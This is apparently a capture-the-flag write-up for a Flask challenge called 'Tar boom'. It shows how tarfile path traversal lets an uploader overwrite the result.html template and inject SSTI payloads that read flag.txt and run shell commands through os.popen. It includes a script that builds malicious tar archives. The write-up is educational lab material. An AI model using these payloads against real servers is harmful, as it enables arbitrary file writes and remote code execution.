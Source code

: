 ```yaml
---
title: Tar boom
author:
description: Within the Louvre Museum's intranet, there is a service that allows trusted users to upload .tar files and view their content. However, this service has been exploited by a hacker. He was able to retrieve crucial information about the Louvre's security, hidden within the flag.txt.
categories:
    - web
year: 2025
challengefiles: tarboom.zip
published: "2025-03-01"
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** We are given a small **Python Flask** web application allowing the upload of tar archives being unpacked by the backend.
    **- Vulnerability:** The used **Python** module **tarfile** is vulnerable to path traversal attacks via the file names of the extracted files, allowing the overwrite of arbitrary files.
    **- Exploitation:** Overwriting the `result.html` template containing an **SSTI** payload results in **RCE**.

# 1. Introduction<a id="introduction"></a>
Connecting to the server, we are greeted by a simple landing page inviting us to upload a tar archive:

![landing page](ctf/writeups/dvctf/tarboom/landing.png "landing page")

Uploading a tar archive with random test files leads us to the following overview showing the tree of files and directories the archive consists of:

![uploaded benign tar archive](ctf/writeups/dvctf/tarboom/normal_upload.png "uploaded benign tar archive")

# 2. Reconnaissance<a id="reconnaissance"></a>
Analyzing the code reveals that only tar files are accepted. Trying to upload any other file format will be rejected. During upload, the backend will unpack the archive with the **Python** module **tarfile**:

```python
def extract_tar(tar_path, extract_dir):
    try:
        with tarfile.open(tar_path, 'r:*') as tar:
            print(f"Extracting '{tar_path}' to '{extract_dir}'...")
            tar.extractall(path=extract_dir, filter='fully_trusted')
            print("Extraction completed successfully.")
    except tarfile.TarError as e:
        print(f"Error: Failed to extract the TAR file. {e}")
```

This processing is needed to print out the file tree after the upload. The extracted files are saved at `uploads/<tar-archive-name>`.

# 3. Vulnerability Description<a id="vulnerability description"></a>
The use of the **Python** module **tarfile** is well known for a directory traversal vulnerability and even got its own [CVE](https://nvd.nist.gov/vuln/detail/cve-2007-4559). In the code, the `extractall` function simply concatenates the current path with the file name:

```python
dirpath = os.path.join(path, tarinfo.name)
```

So by simply having a file name with several `../` as a prefix will result in arbitrary file write. To make it easier to generate this kind of archive, we can use the following script, adding the content of specific files with a name of your choice to your malicious tar archive:

```python
import tarfile

overwrites = [
    ('../', 'test.txt'),
]

with tarfile.open('malicious.tar', 'w') as tar:
    for directory, filename in overwrites:
        tar.add(filename, arcname=f'{directory}/{filename}')
```

This vulnerability was never fixed and probably will never be fixed. The previous maintainer even wrote an [article](https://www.gustaebel.de/lars/CVE-2007-4559.html) about the problems around fixing this vulnerability. This is not the only library being vulnerable to this kind of attack. There is a whole research around this topic and you might be interested in reading further in [Zip Slip Snyk](https://security.snyk.io/research/zip-slip-vulnerability) and [Zip Slip Github](https://github.com/snyk/zip-slip-vulnerability).

# 4. Exploitation<a id="exploitation"></a>
Although exploiting this vulnerability seems easy, you have to be careful picking a target for the arbitrary file write. You might think we could just simply overwrite the `scripts/tarExtract.py` file and thus serving our own **Python** code, which will be executed when this functionality is called. Another idea could be exploiting the **Python PATH** by simply adding an `os.py` file right next to the `app.py`. But sadly, both of these ideas won't work out as **Python** will always immediately load the needed modules into the memory. So once the **Python** modules are loaded, replacing the corresponding files won't do anything. As a side note, if the **Flask** server was started with `debug=True`, the aforementioned approaches will work, as the server will restart and reload the modules when file changes are detected. But in this challenge, this config is turned off. Luckily enough, **Python** will only lazy load all of the code. This means that only when needed for the first time, the modules are loaded into memory. Thus we have to find a file that is not immediately needed when connecting to the server. In this case, only the `result.html` is not immediately loaded. To get an arbitrary file read, which is enough to obtain the flag, we can simply extend the template with an **SSTI** as follows:

```html
<pre>
{{ get_flashed_messages.__globals__.__builtins__.open("/app/flag.txt").read() }}
{% for line in tree %}
{{ line }}
{% endfor %}
</pre>
    <a href="/">Upload another backup</a>
</div>
```

This will give us the flag:

![flag extracted](ctf/writeups/dvctf/tarboom/flag.png "flag extracted")

We can even escalate this further to **RCE** to fully pwn the web server with `{{ get_flashed_messages.__globals__['os'].popen('ls -alps').read() }}`:

![rce](ctf/writeups/dvctf/tarboom/rce.png "rce")

But keep in mind you will only be able to change the `result.html` template via the very first malicious upload, as afterwards, also this template is already loaded into memory by **Python**.


# 5. Mitigation<a id="mitigation"></a>
Although you might think you are safe because you got a filter, only allowing specific file extensions, won't be enough. Processing user input with any module should always be enjoyed with caution. Make sure to read the documentation and especially the security warnings to prevent vulnerabilities like in this challenge.

# 6. Flag<a id="flag"></a>
DVCTF{rWyjzMYiQ2Jgx8wLP8kA}

# 7. References<a id="references"></a>
- https://security.snyk.io/research/zip-slip-vulnerability
- https://github.com/snyk/zip-slip-vulnerability
